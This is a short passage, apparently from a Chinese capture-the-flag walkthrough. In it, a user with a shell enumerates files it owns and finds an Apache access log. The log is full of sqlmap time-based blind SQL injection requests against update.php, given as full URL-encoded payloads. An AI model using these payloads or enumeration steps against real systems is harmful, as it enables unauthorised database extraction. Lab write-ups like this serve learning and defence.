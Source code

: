 在探测环境时，发现 `administrator` 有权限访问 apache 的日志

```shell
(remote) administrator@erlenmeyer:/home/administrator$ find / -user administrator 2>/dev/null | grep -vE "/proc|/sys|/home|/run"
/dev/pts/1
/var/mail/administrator
/var/log/apache2/access.log
```

在日志文件中发现大量的 sql 注入痕迹

```shell
7 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3004140 192.168.86.1 - - [20/Jul/2021:05:44:30 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%3E16%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3004752 192.168.86.1 - - [20/Jul/2021:05:44:33 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%3E24%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3011828 192.168.86.1 - - [20/Jul/2021:05:44:36 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%3E28%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3003759 192.168.86.1 - - [20/Jul/2021:05:44:39 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%3E30%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3004110 192.168.86.1 - - [20/Jul/2021:05:44:42 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%3E31%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
4209 192.168.86.1 - - [20/Jul/2021:05:44:45 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%21%3D32%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3005636 192.168.86.1 - - [20/Jul/2021:05:44:45 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E64%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3460 192.168.86.1 - - [20/Jul/2021:05:44:48 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E96%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3003961 192.168.86.1 - - [20/Jul/2021:05:44:48 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E80%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
4347 192.168.86.1 - - [20/Jul/2021:05:44:51 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E88%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
```